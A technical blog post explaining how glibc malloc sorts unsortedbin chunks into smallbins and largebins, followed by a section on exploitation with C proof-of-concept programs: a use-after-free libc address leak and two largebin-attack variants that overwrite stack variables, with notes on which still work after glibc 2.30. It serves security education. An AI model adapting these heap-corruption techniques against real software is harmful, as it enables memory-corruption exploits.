





This post covers content related to the unsortedbin. "Unsorted" essentially means "uncategorized" — other bins have fixed sizes or ranges, and categorizing chunks into the corresponding bin is effectively sorting them by size.

Previously in [glibc malloc/free Source Code Analysis](), I analyzed the memory allocation and deallocation process in detail. `malloc` allocates based on an exact-fit priority principle: it first looks for an existing chunk of the same size, otherwise it categorizes chunks in the unsortedbin while performing exact-fit matching to find the best one. After categorization, if no perfectly sized chunk is found, a slightly larger chunk is split, and the remainder is placed back into the unsortedbin.

If tcache is available, chunks that are exact-matched during the categorization process are first stored in tcache. Once the threshold is reached, a chunk is immediately returned. Without tcache, the chunk is returned immediately. Chunks that don't exact-match are categorized into their corresponding bins.

Excluding tcache's influence, unsorted chunks are only categorized into smallbins or largebins. The relevant code is short, so let's look at it directly.

## Categorization Process

The code shown here is from version 2.27.

### Small Chunk Categorization

```cpp
while ((victim = unsorted_chunks (av)->bk) != unsorted_chunks (av))
{
    // ... (omitted)
    
    /* remove from unsorted list */
    unsorted_chunks (av)->bk = bck;
    bck->fd = unsorted_chunks (av);
    
    // ... (omitted)
    if (in_smallbin_range (size))
    {
      victim_index = smallbin_index (size);
      bck = bin_at (av, victim_index);
      fwd = bck->fd;
    }
    else
    {
        // ... large chunk (omitted)
    }
    
    mark_bin (av, victim_index);
    victim->bk = bck;
    victim->fd = fwd;
    fwd->bk = victim;
    bck->fd = victim;
    
    // ... (omitted)
    
#define MAX_ITERS       10000
  	if (++iters >= MAX_ITERS)
    	break;
}
    

```

Nothing special here — it simply links the victim onto the smallbin.

### Large Chunk Categorization

```cpp
while ((victim = unsorted_chunks (av)->bk) != unsorted_chunks (av))
{
    // ... (omitted)

    /* remove from unsorted list */
    unsorted_chunks (av)->bk = bck;
    bck->fd = unsorted_chunks (av);

    // ... (omitted)
    if (in_smallbin_range (size))
    {
        // ... (omitted)
    }
    else
    {
        victim_index = largebin_index (size);
        bck = bin_at (av, victim_index);
        fwd = bck->fd;

        /* maintain large bins in sorted order */
        if (fwd != bck)
        {
            /* Or with inuse bit to speed comparisons */
            size |= PREV_INUSE;
            /* if smaller than smallest, bypass loop below */
            assert (chunk_main_arena (bck->bk));
            if ((unsigned long) (size)
                < (unsigned long) chunksize_nomask (bck->bk))
            {
                fwd = bck;
                bck = bck->bk;

                victim->fd_nextsize = fwd->fd;
                victim->bk_nextsize = fwd->fd->bk_nextsize;
                fwd->fd->bk_nextsize = victim->bk_nextsize->fd_nextsize = victim;
            }
            else
            {
                assert (chunk_main_arena (fwd));
                while ((unsigned long) size < chunksize_nomask (fwd))
                {
                    fwd = fwd->fd_nextsize;
                    assert (chunk_main_arena (fwd));
                }

                if ((unsigned long) size
                    == (unsigned long) chunksize_nomask (fwd))
                    /* Always insert in the second position.  */
                    fwd = fwd->fd;
                else
                {
                    victim->fd_nextsize = fwd;
                    victim->bk_nextsize = fwd->bk_nextsize;
                    fwd->bk_nextsize = victim;
                    victim->bk_nextsize->fd_nextsize = victim;
                }
                bck = fwd->bk;
            }
        }
        else
            victim->fd_nextsize = victim->bk_nextsize = victim;
    }

    mark_bin (av, victim_index);
    victim->bk = bck;
    victim->fd = fwd;
    fwd->bk = victim;
    bck->fd = victim;

    // ... (omitted)

    #define MAX_ITERS       10000
    if (++iters >= MAX_ITERS)
        break;
}
```

Chunks in the largebin are already sorted by size: `fd` direction goes from large to small, `bk` direction goes from small to large. Large chunks use `fd_nextsize` and `bk_nextsize` — these two pointers serve as a skip list, allowing quick traversal past chunks of the same size to reach the next different-sized chunk.

The largebin head's `bk` points to the smallest chunk in the current linked list. If the chunk to be inserted is smaller than the smallest, it's inserted directly between `bin` and `bin->bk`. Otherwise, traversal proceeds along the `fd_nextsize` direction (large to small) to find the appropriate insertion position.

## Attack Exploitation

The exploitation examples below are based on libc 2.27. Newer versions are analyzed afterwards.

### UAF Leaking libc

Due to the bin structure:



Both the head and tail of the bin linked list point to `main_arena.bins[i]`. `main_arena` is statically stored in libc's `.data` segment. Therefore, if a UAF vulnerability exists, printing the head node's `bk` or the tail node's `fd` after free reveals the `main_arena` address, from which the libc base address can be calculated via relative offset:

```cpp
#include <stdio.h>
#include <stdlib.h>

int main()
{
    // Allocate a large chunk to avoid tcache interference.
    char *p1 = (char *)malloc(0x430);
    printf("p1 chunk address: %p\n", p1-0x10);
    // Avoid to consolidating the large chunk p1 with the other chunk during the free().
    malloc(0x90);
    asm("int3");
    // Free p1 chunk to unsortedbin
    free(p1);

    // fd/bk -> main_arena.bins[1]
    printf("&main_arena.bins[1] ==> %p\n", *((char **)p1));
}
```

In this code, after `p1`'s memory is freed and reused, we obtain the `main_arena.bins[1]` address:



### UAF Arbitrary Address Write

This exploitation technique targets the unsorted large chunk categorization process triggered by `malloc`. It only works with large chunks and leverages the `bk_nextsize` and `fd_nextsize` pointer corrections during chunk insertion. There are two exploitation methods:

1. When the unsorted chunk size is smaller than the smallest chunk, the following code executes:

    ```cpp
    bck = fwd->bck

    victim->fd_nextsize = fwd->fd;
    victim->bk_nextsize = fwd->fd->bk_nextsize;
    fwd->fd->bk_nextsize = victim->bk_nextsize->fd_nextsize = victim;

    victim->bk = bck;
    victim->fd = fwd;
    fwd->bk = victim;
    bck->fd = victim;
    ```

    This makes `fwd->fd->bk_nextsize = fwd->fd->bk_nextsize->fd_nextsize = victim` and `fwd->bck->fd = victim`. In this case, `fwd` is uncontrollable — it always points to `main_arena.bin[1]`, so only `fwd->fd` can be controlled. When the largest large chunk is controllable, this allows writing the unsorted chunk address to `fwd->fd->bk_nextsize + 0x20`.

2. When the unsorted chunk size is larger than the smallest chunk, the following code executes:

    ```cpp
    bck = fwd->bck
    
    victim->fd_nextsize = fwd;
    victim->bk_nextsize = fwd->bk_nextsize;
    fwd->bk_nextsize = victim;
    victim->bk_nextsize->fd_nextsize = victim;
    
    victim->bk = bck;
    victim->fd = fwd;
    fwd->bk = victim;
    bck->fd = victim;
    ```

    This makes `fwd->fd->bk_nextsize = fwd->fd->bk_nextsize->fd_nextsize = victim` and `fwd->bck->fd = victim`. In this case, `fwd` points to the previous large chunk. If it's controllable, this allows writing the unsorted chunk address to both `fwd->bk_nextsize + 0x20` and `fwd->bck + 0x10`.

#### Exploitation 1

Let's test by setting up the first scenario:

```cpp
#include <stdio.h>
#include <stdlib.h>

int main()
{
    unsigned long stack_var1 = 0;
    printf("&stack_var1 = %p\n", &stack_var1);
    printf("stack_var1 = %d\n", stack_var1);

    printf("Pre-call printf to avoid any subsequent impact on the layout of the chunk.\n\n");

    // Allocate a large chunk p1, we connot use small chunk due to the influence of tcache.
    char *p1 = (char *)malloc(0x420);
    printf("p1 chunk address:\t\t%p\n", p1 - 0x10);
    // Avoid to consolidating the p1 chunk with the other chunk during the free().
    malloc(0x20);
    // Allocate a large chunk p2 to avoid tcache interference.
    char *p2 = (char *)malloc(0x460);
    printf("p2 chunk address:\t\t%p\n", p2 - 0x10);
    // Avoid to consolidating the p2 chunk with the other chunk during the free().
    malloc(0x20);
    // Allocate a chunk p3 with a size smaller than p2 chunk.
    // The objective is to generate an unsorted chunk whose size is smaller than the other chunks present in the largebin.
    char *p3 = (char *)malloc(0x440);
    printf("p3 chunk address:\t\t%p\n\n", p3 - 0x10);
    // Avoid to consolidating the p3 chunk with the other chunk during the free().
    malloc(0x20);

    // Free p1 and p2 chunk to unsortedbin
    // asm("int3");
    printf("Free p1 and p2 chunk to unsortedbin.\n");
    free(p1);
    free(p2);

    printf("\tp2 chunk link:\t\t\t[%p <==> %p(p2) <==> %p]\n", *((char **)(p2 + 0x8)), p2 - 0x10, *((char **)(p2)));
    printf("\tp2 chunk nextsize link:\t\t[%p <==> %p(p2) <==> %p]\n\n", *((char **)(p2 + 0x18)), p2 - 0x10, *((char **)(p2 + 0x10)));

    // Allocate a chunk with a size smaller than freed p1 chunk, there are two goals:
    //      1. Use p1 to avoid splitting the p2 chunk. The remaining part after the 
    //          split will be placed back into the unsorted bin.
    //      2. to move p2 chunk to largebin
    printf("Allocate a chunk with a size smaller than freed p1 chunk, there are two goals:\n\t1. Use p1 to avoid splitting the p2 chunk. The remaining part after the \n\t\tsplit will be placed back into the unsorted bin.\n\t2. to move p2 chunk to largebin\n");
    char * partOfP1 = (char *)malloc(0x20);
    printf("\tpartOfP1:\t\t\t%p\n", partOfP1 - 0x10);
    printf("\tpartOfP1 == p1:\t\t\t%s\n", partOfP1 == p1 ? "true" : "false");

    printf("\tp2 chunk link:\t\t\t[%p <==> %p(p2) <==> %p]\n", *((char **)(p2 + 0x8)), p2 - 0x10, *((char **)(p2)));
    printf("\tp2 chunk nextsize link:\t\t[%p <==> %p(p2) <==> %p]\n\n", *((char **)(p2 + 0x18)), p2 - 0x10, *((char **)(p2 + 0x10)));

    // asm("int3");

    // Free p3 chunk to unsortedbin
    printf("Free p3 chunk to unsortedbin.\n");
    free(p3);
    printf("\tp3 chunk link: \t\t\t[%p <==> %p(p3) <==> %p]\n", *((char **)(p3 + 0x8)), p3 - 0x10, *((char **)(p3)));
    printf("\tp3 chunk nextsize link:\t\t[%p <==> %p(p3) <==> %p]\n\n", *((char **)(p3 + 0x18)), p3 - 0x10, *((char **)(p3 + 0x10)));

    // asm("int3");

    // Change the bk_nextsize of the largest chunk p2 to (&stack_var1 - 0x20).
    printf("Change the bk_nextsize of the largest chunk p2 to (&stack_var1 - 0x20).\n");
    *(unsigned long *)(p2 + 0x18) = (unsigned long)&stack_var1 - 0x20;
    printf("\tp2 chunk nextsize link:\t\t[%p <==> %p(p2) <==> %p]\n\n", *((char **)(p2 + 0x18)), p2 - 0x10, *((char **)(p2 + 0x10)));

    // asm("int3");

    printf("Call malloc to move p3 to large bin, make *(p2->bk_nextsize + 0x20) == stack_var1 == p3\n");
    malloc(0x20);
    printf("\tstack_var1 = %p\n", (char *)stack_var1);
    // asm("int3");
    exit(0);
}
```

Using glibc version 2.27, the result is as follows:



This example sets up 3 chunks:

- `p1` is used as a separator to prevent chunk consolidation during intermediate `malloc` calls
- `p2` later becomes the smallest chunk in the largebin, and due to the UAF vulnerability it's controllable, meaning `fwd->fd` is controllable
- `p3` is later placed into the unsortedbin, and on the next `malloc` call it will be categorized into the same largebin as `p2`, with the unsorted chunk size being smaller than the smallest chunk in the largebin

After using UAF to modify `p2->bk_nextsize` to `&stack_var1 - 0x20`, calling `malloc` triggers unsortedbin categorization which writes the unsorted `p3` address to `fwd->fd->bk_nextsize + 0x20`, and `stack_var1` is ultimately changed to `p3`'s address.

Note that `p2` and `p3` must be within the same largebin range, and `p3` must be smaller than `p2`.

Tested on a newer version (2.39-0ubuntu8.3) and it still works.

#### Exploitation 2

With slight modifications to the previous code, we get the second scenario:

```cpp
#include <stdio.h>
#include <stdlib.h>

int main()
{
    unsigned long stack_var1 = 0;
    unsigned long stack_var2 = 0;
    printf("&stack_var1 = %p\n", &stack_var1);
    printf("&stack_var2 = %p\n", &stack_var2);
    printf("stack_var1 = %d\n", stack_var1);
    printf("stack_var2 = %d\n", stack_var2);

    printf("Pre-call printf to avoid any subsequent impact on the layout of the chunk.\n\n");

    // Allocate a large chunk p1, we connot use small chunk due to the influence of tcache.
    char *p1 = (char *)malloc(0x420);
    printf("p1 chunk address:\t\t%p\n", p1 - 0x10);
    // Avoid to consolidating the p1 chunk with the other chunk during the free().
    malloc(0x20);
    // Allocate a large chunk p2 to avoid tcache interference.
    char *p2 = (char *)malloc(0x440);
    printf("p2 chunk address:\t\t%p\n", p2 - 0x10);
    // Avoid to consolidating the p2 chunk with the other chunk during the free().
    malloc(0x20);
    // Allocate a chunk p3 with a size larger than p2 chunk.
    // The objective is to generate an unsorted chunk whose size is larger than the other chunks present in the largebin.
    char *p3 = (char *)malloc(0x460);
    printf("p3 chunk address:\t\t%p\n\n", p3 - 0x10);
    // Avoid to consolidating the p3 chunk with the other chunk during the free().
    malloc(0x20);

    // Free p1 and p2 chunk to unsortedbin
    // asm("int3");
    printf("Free p1 and p2 chunk to unsortedbin.\n");
    free(p1);
    free(p2);

    printf("\tp2 chunk link:\t\t\t[%p <==> %p(p2) <==> %p]\n", *((char **)(p2 + 0x8)), p2 - 0x10, *((char **)(p2)));
    printf("\tp2 chunk nextsize link:\t\t[%p <==> %p(p2) <==> %p]\n\n", *((char **)(p2 + 0x18)), p2 - 0x10, *((char **)(p2 + 0x10)));

    // Allocate a chunk with a size smaller than freed p1 chunk, there are two goals:
    //      1. Use p1 to avoid splitting the p2 chunk. The remaining part after the 
    //          split will be placed back into the unsorted bin.
    //      2. to move p2 chunk to largebin
    printf("Allocate a chunk with a size smaller than freed p1 chunk, there are two goals:\n\t1. Use p1 to avoid splitting the p2 chunk. The remaining part after the \n\t\tsplit will be placed back into the unsorted bin.\n\t2. to move p2 chunk to largebin\n");
    char * partOfP1 = (char *)malloc(0x20);
    printf("\tpartOfP1:\t\t\t%p\n", partOfP1 - 0x10);
    printf("\tpartOfP1 == p1:\t\t\t%s\n", partOfP1 == p1 ? "true" : "false");

    printf("\tp2 chunk link:\t\t\t[%p <==> %p(p2) <==> %p]\n", *((char **)(p2 + 0x8)), p2 - 0x10, *((char **)(p2)));
    printf("\tp2 chunk nextsize link:\t\t[%p <==> %p(p2) <==> %p]\n\n", *((char **)(p2 + 0x18)), p2 - 0x10, *((char **)(p2 + 0x10)));

    // asm("int3");

    // Free p3 chunk to unsortedbin
    printf("Free p3 chunk to unsortedbin.\n");
    free(p3);
    printf("\tp3 chunk link: \t\t\t[%p <==> %p(p3) <==> %p]\n", *((char **)(p3 + 0x8)), p3 - 0x10, *((char **)(p3)));
    printf("\tp3 chunk nextsize link:\t\t[%p <==> %p(p3) <==> %p]\n\n", *((char **)(p3 + 0x18)), p3 - 0x10, *((char **)(p3 + 0x10)));

    // asm("int3");

    // Change the bk_nextsize of the large chunk p2 to (&stack_var1 - 0x20).
    printf("Change the bk_nextsize of the large chunk p2 to (&stack_var1 - 0x20).\n");
    *(unsigned long *)(p2 + 0x18) = (unsigned long)&stack_var1 - 0x20;
    printf("\tp2 chunk nextsize link:\t\t[%p <==> %p(p2) <==> %p]\n\n", *((char **)(p2 + 0x18)), p2 - 0x10, *((char **)(p2 + 0x10)));
    printf("Change the bk of the large chunk p2 to (&stack_var1 - 0x10).\n");
    *(unsigned long *)(p2 + 0x8) = (unsigned long)&stack_var2 - 0x10;
    printf("\tp2 chunk link: \t\t\t[%p <==> %p(p2) <==> %p]\n", *((char **)(p2 + 0x8)), p2 - 0x10, *((char **)(p2)));

    // asm("int3");

    printf("Call malloc to move p3 to large bin, make *(p2->bk_nextsize + 0x20) == stack_var1 == p3 and *(p2->bk + 0x10) == stack_var2 == p3\n");
    malloc(0x20);
    printf("\tstack_var1 = %p\n", (char *)stack_var1);
    printf("\tstack_var2 = %p\n", (char *)stack_var2);
    // asm("int3");

    exit(0);
}
```

Note that `p3` is larger than `p2`, which falls under the second exploitation method. It can simultaneously modify two pointers to `p3`'s address:


If using a newer version (2.39), this method will fail:



This is because a validation check for `bk_nextsize` and `bk` was added in version 2.30 commit [5b06f53](https://github.com/bminor/glibc/commit/5b06f538c5aee0389ed034f60d90a8884d6d54de):



Therefore, this method is ineffective after 2.30, and only the first method can be used. For compiling programs with different glibc versions, refer to [glibc_all_in_one]().
